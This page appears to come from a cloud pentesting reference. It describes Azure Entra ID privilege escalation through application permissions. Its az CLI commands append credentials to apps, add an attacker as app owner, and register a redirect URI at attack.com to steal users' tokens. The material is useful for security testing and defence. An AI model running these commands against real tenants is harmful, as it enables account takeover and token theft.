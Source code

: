## Applications

### `microsoft.directory/applications/credentials/update`

This allows an attacker to **add credentials** (passwords or certificates) to existing applications. If the application has privileged permissions, the attacker can authenticate as that application and gain those privileges.

```bash
# Generate a new password without overwritting old ones
az ad app credential reset --id <appId> --append
# Generate a new certificate without overwritting old ones
az ad app credential reset --id <appId> --create-cert
```

### `microsoft.directory/applications.myOrganization/credentials/update`

This allows the same actions as `applications/credentials/update`, but scoped to single-directory applications.

```bash
az ad app credential reset --id <appId> --append
```

### `microsoft.directory/applications/owners/update`

By adding themselves as an owner, an attacker can manipulate the application, including credentials and permissions.

```bash
az ad app owner add --id <AppId> --owner-object-id <UserId>
az ad app credential reset --id <appId> --append

# You can check the owners with
az ad app owner list --id <appId>
```

### `microsoft.directory/applications/allProperties/update`

An attacker can add a redirect URI to applications that are being used by users of the tenant and then share with them login URLs that use the new redirect URL in order to steal their tokens. Note that if the user was already logged in the application, the authentication is going to be automatic without the user needing to accept anything.

Note that it's also possible to change the permissions the application requests in order to get more permissions, but in this case the user will need accept again the prompt asking for all the permissions.

```bash
# Get current redirect uris
az ad app show --id ea693289-78f3-40c6-b775-feabd8bef32f --query "web.redirectUris"
# Add a new redirect URI (make sure to keep the configured ones)
az ad app update --id <app-id> --web-redirect-uris "https://original.com/callback https://attack.com/callback"
```

